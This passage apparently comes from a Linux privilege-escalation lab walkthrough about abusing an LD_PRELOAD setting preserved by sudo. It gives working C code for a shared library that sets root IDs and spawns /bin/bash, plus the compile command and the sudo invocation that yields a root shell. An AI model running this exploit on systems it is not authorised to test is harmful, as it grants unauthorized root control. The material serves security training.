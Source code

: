 One common vulnerability occurs when the `LD_PRELOAD` variable is visible in the output of `sudo -l`.

![LD_PRELOAD Variable](./Image/22.png)

To exploit this, we can write a simple C program to spawn a shell:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");   
}
```

After compiling the program with the following command:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can then load `shell.so` as `LD_PRELOAD` to gain root access by executing any command that can run with root privileges:

```bash
sudo LD_PRELOAD=/home/user/shell.so apache2
```

This successfully provided us with a root shell.

![Root Shell Access](./Image/23.png)

# Challenge 1
